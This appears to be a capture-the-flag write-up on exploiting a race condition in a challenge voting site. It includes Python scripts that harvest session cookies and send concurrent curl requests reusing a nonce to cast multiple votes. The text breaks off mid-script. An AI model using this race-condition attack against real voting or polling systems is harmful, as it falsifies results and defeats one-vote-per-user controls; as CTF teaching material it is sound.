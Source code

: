 The challenge took a lot of "`ARGGHHHH SOOOO CLOOOSSEEEEE`" 's to get.

**Warning: The solution contains bad code :P** 

Checking the [http://web-2-2/](http://web-2-2/) tells that there is only 1 vote left and we have the credentials for voting. 

Logging in and voting then redirects us to the vote page and shows us the candidates and their votes.

After not being able to figure out what was happening for the first couple of hours one of my teammate voted at the same time as me and I saw the votes go up by 2. 

AH! multiple requests at the same time seems to allow us to vote multiple times.

After using multithreading in python with the requests module still was not getting us there so I thought maybe just use curl using `os.system()` worth a shot I guess. 

Then I created a separate script to grab a 100 cookies and saved them to cookies.txt which was then used by my second script to send post requests using those session cookies and reusing the nonce a couple of times.

### Final Scripts

Get cookies

```python
import requests

for i in range(100):
	session = requests.Session()
	session.post("http://web-2-2/login", data={"username" : "lastvoter" , "password" : "yourvotecounts123", "remember": "on"})
	print(session.cookies.get_dict()['session'])
```

Attack

```python
import re
from threading import Thread
import os

all_the_cookies = []
successful = 0
f = open("./cookies.txt", "r")
cookies = f.readlines()
def main(cookie):
	try:
		nonce = os.popen('curl "http://web-2-2/voterportal" -b "session=' + cookie.strip("\n") + '" --silent | grep nonce').read()
		nonce = re.search('name="nonce" value="(.*)"></', nonce).group(1)
		os.system('curl -d "candidate=LA Ice Cola&nonce=' + nonce + '" -b "session=' + cookie.strip("\n") + '" "http://web-2-2/vote" 2>/dev/null &')
		os.system('curl -d "candidate=LA Ice Cola&nonce=' + nonce + '" -b "session=' + cookie.strip("\n") + '" "http://web-2-2/vote" 2>/dev/null &')
		os.system('curl -d "candidate=LA Ice Cola&nonce=' + nonce + '" -b "session=' + cookie.strip("\n") + '" "http://web-2-2/vote" 2>/dev/null &')
		os.system('curl -d "candidate=LA Ice Cola&nonce=' + nonce + '" -b "session=' + cookie.strip("\n") + '" "http://web-2-2/vote" 2>/dev/null &')
		os.system('curl -d "candidate=LA Ice Cola&nonce=' + nonce + '" -b "session=' + cookie.strip("\n") + '" "http://web-2-2/vote" 2>/dev/null &')
		os.system('curl -d "candidate=LA Ice Cola&nonce=' + nonce + '" -b "session=' + cookie.strip("\n") + '" "http://web-2-2/vote" 2>/dev/null &')
		successful += 1
	except:
		pass

for i in range(100):
```